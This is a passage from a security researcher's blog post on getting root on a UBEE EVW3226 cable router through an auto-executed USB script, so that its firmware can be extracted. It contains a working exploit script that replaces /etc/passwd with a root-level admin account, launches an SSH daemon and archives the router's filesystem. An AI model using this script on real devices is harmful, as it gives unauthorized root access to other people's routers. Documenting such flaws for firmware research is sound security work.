 [![UBEE top](/static/ubee/ubee_front.jpg)](/static/ubee/ubee_front.jpg)

Lucky for us, we didn’t have to mess with the UART interface of the router even though I was looking forward to it.
Just a day before I bought my UBEE router for experiments, Firefart [published an article](https://firefart.at/post/upc_ubee_fail/)
on how to get a root on the router just by inserting a USB drive with simple scripts.

Tl;dr: If USB drive has name `EVW3226`, shell script
`.auto` on it gets executed with system privileges. With this script you start SSH server, connect
prepared USB drive to the router and enjoy the root.

## Firmware Extraction {#firmware-extraction}

With this I managed to dump the whole firmware on the mounted USB drive.
The script we use to start SSH daemon and to dump the firmware is below.
Note: for detailed instructions on preparing USB drive please refer to the original [article](https://firefart.at/post/upc_ubee_fail/).

```bash
#!/bin/bash
if [ ! -e /etc/passwd.1 ]; then
	cp /etc/passwd /etc/passwd.1

    # dropbear_rsa_host_key has to be prepared on the USB drive 
    echo "admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh" > /etc/passwd
    dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22

    # Dump router FS to the drive as tar
    WHERE=/var/tmp/disk/HOMEROUTER
    mkdir -p ${WHERE}
    tar -cvpf ${WHERE}/router-image-root.tar -X/var/tmp/disk/tar-exclude /
```

[wifileaks.cz]: http://wifileaks.cz